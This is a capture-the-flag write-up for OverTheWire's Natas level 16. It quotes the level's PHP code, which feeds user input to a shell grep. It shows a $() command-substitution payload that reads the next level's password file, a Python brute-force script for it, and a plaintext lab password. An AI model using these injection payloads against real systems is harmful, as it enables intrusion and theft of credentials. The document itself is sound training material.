 ```yaml
---
layout: post
title:  "Natas Level 16"
date:   2015-10-01 10:36
categories: natas wargame web overthewire
author: Nate
---
```

![natas16](/images/natas16.png)

Natas 16 is a more secure version of Natas 9 and 10.  In this challenge, the server-side code the challenge author provides us allows a passthru but filters on most characters in bash that would allow us to do much at all.  Take a look at the source code the challenge author provides us:

{% highlight html %}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas16", "pass": "<censored>" };</script></head>
<body>
<h1>natas16</h1>
<div id="content">

For security reasons, we now filter even more on certain characters<br/><br/>
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
  if(preg_match('/[;|&`\'"]/',$key)) {
    print "Input contains an illegal character!";
  } else {
    passthru("grep -i \"$key\" dictionary.txt");
  }
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{% endhighlight %}

If you pay close attention to the preg_match function above, it will return a positive result if any of the following characters are found in the input we provide to the form: &#59; &#124; &amp; &#96; &#39; &quot;

Since the passthru function allows us to execute arbitrary commands on the bash shell, this prevents us from doing many things to include the following: multiple commands, piping output from one command to the other, weak and strong quoting (double and single quotes), boolean/logical AND ( & ) and OR ( | ) operators.

Since you cannot pass a single or double quote character into the input, this also prevents using character encoding tricks. (base64 or unicode translation)

Although the backtick character ` is filtered, it's alternative format $() is still allowed for command substitution.  If you're not familiar with command substitution, check out the GNU Manual [here](http://www.gnu.org/software/bash/manual/bash.html#Command-Substitution).

This challenge is solved by concatenating the output of an inner grep command with the output of an outer grep command.  If we receive output on the page, we have a negative result.  If we receive no output, we've guessed a correct character in the password and can continue.

The command is as follows:

{% highlight bash %}
grep -i \"$(grep -E ^a.* /etc/natas_webpass/natas17)hacker\" dictionary.txt
{% endhighlight %}

How does this work, you ask? Well lets break this command down into smaller pieces:

1) First, the shell will execute the inner grep command:
{% highlight bash %}
grep -E ^a.* /etc/natas_webpass/natas17
{% endhighlight %}

Here we're telling grep to interpret our pattern as an extended regular expression.  The ^ operator tells grep that we're looking for any passwords that begin with the character(s) that directly follow it. The second argument is the password file we want grep to parse.

2) If grep finds a password that starts with "a", it'll return that value and our inner command will be substituted with the return value.  We know that the string "hacker" is a word in the dictionary.txt file.  If no results are returned from the inner grep command, nothing will be prepended to "hacker".  If the inner grep command finds a positive match, however, the return value will be prepended to "hacker" and the outer grep command will fail to find any results.  This is because there is no word "ahacker" in dictionary.txt.

Thus, a negative or blank result from our outer command indicates there was POSITIVE result on the inner command (which indicates the character we just guessed was correct.)

Armed with this knowledge, we can whip up a quick Python script very similar to our last two challenge levels.  We'll brute force our password by running through every alphanumeric character and appending the character that caused a blank result.  Every time we append a character, we'll break out of the inner loop that iterates over all characters, and begin a new iteration on the outer loop that iterates over passwor length.

Consider the code below:

{% highlight python linenos %}
#!/bin/python
import requests,string

url = "http://natas16.natas.labs.overthewire.org"
auth_username = "natas16"
auth_password = "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh"

characters = ''.join([string.ascii_letters,string.digits])

password = []
for i in range(1,34):
    for char in characters:
        uri = "{0}?needle=$(grep -E ^{1}{2}.* /etc/natas_webpass/natas17)hackers".format(url,''.join(password),char)
        r = requests.get(uri, auth=(auth_username,auth_password))
        if 'hackers' not in r.text:
            password.append(char)
            print(''.join(password))
            break
        else: continue
{% endhighlight %}

The outer loop assumes a password length of 34 characters, and the inner loop iterates over every alphanumeric character.  The uri variable is defined as the GET string where the needle is our inner GREP command.  We make the GET request and parse the result text which is the html page source.  If we see "hackers" in the output, we had a positive outer loop result, and thus a negative inner loop result.  We only append characters to our password when the output was blank as I stated earlier.

Once we've written the script, we'll run it and the final character string should be our password for the next challenge level.

![natas16_execution](/images/natas16_execution.png)

That's it.  The final character string at the bottom was in fact the correct password for Natas 17.
